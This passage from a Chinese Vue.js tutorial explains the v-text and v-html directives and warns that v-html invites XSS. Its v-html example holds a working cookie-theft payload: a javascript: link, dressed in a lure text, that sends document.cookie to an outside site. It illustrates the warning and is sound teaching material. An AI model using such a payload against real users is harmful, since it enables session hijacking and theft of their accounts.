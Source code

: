 #### 1.11.2 v-text

1. 作用：向其所在的节点中渲染文本内容

2. 区别：v-text会替换掉节点中的内容，{{xxx}}则不会

3. 注意：文字中的html标签不会被解析，而是直接显示

   ```html
   <div id="root">
     <div>你好，{{name}}</div>
     <div v-text="name">我被替换了</div>
     <div v-text="str"></div>
   </div>
   ```

   ```js
   Vue.config.productionTip = false
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       str: '<h3>你好啊！</h3>', // 这里<h3>不会被当成html标签解析，而是直接显示出来
     },
   })
   ```

#### 1.11.3 v-html

1. 作用：向指定节点中渲染包含html结构的内容

2. 区别：

   1）v-html会替换掉节点中所有的内容，{{xxx}}则不会

   2）v-html可以识别html结构

3. 注意：

   1）v-html有安全性问题

   2）在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击

   3）一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

   ```html
   <div id="root">
     <div>你好，{{name}}</div>
     <div v-html="str"></div>
     <div v-html="str2"></div>
   </div>
   ```

   ```js
   Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
   new Vue({
     el: '#root',
     data: {
       name: '尚硅谷',
       str: '<h3>你好啊！</h3>',
       // 可用 document.cookie 获取当前网站的 cookie，但如果标记了 HttpOnly 则无法读取
       str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
     },
   })
   ```
